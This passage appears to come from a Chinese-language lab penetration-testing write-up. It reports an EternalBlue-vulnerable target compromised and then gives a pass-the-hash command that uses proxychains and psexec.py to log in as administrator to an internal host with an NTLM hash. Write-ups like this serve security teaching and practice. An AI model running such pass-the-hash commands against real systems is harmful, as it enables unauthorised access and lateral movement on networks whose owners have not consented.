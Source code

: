 [![](assets/1709193375-3436736c3f167070f25912f1d3886493.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204847-8c722746-d56e-1.png)

永恒之蓝靶标渗透成功

[![](assets/1709193375-714de143909bd4e401ddc6aebc3b8bed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204852-8f89b322-d56e-1.png)

### hash 攻击永恒之蓝

这里需要多打几次，获取系统 hash 进行攻击

```plain
proxychains psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```
